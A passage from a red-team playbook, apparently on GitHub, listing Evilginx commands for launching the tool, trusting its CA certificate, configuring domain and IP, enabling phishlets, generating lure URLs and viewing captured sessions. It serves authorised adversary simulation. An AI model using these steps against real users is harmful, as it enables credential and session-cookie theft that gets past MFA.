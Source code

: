 ##### Alternatively with Redirectors

```c
$ sudo ./build/evilginx -p ./phishlets -t ./redirectors -developer
```

#### Basic Commands

```c
: phishlets
: lures
: sessions
```

#### Prepare Certificates

```c
$ sudo cp /root/.evilginx/crt/ca.crt /usr/local/share/ca-certificates/evilginx.crt
$ sudo update-ca-certificates
```

#### Domain Setup

```c
: config domain <DOMAIN>
: config ipv4 <LHOST>
```

#### Phishlets

> https://help.evilginx.com/docs/guides/phishlets

> https://github.com/An0nUD4Y/Evilginx2-Phishlets

```c
: phishlets hostname <PHISHLET> <DOMAIN>
: phishlets enable <PHISHLET>
```

#### Lures

> https://help.evilginx.com/docs/guides/lures

```c
: lures create <PHISHLET>
: lures get-url <ID>
```

#### Session Handling

```c
: sessions
: sessions <ID>
```

### Previous

- [Operations](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/Operations/Operations.md)

### Next

- [1 Reconnaissance](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/1-Reconnaissance/1-Reconnaissance.md)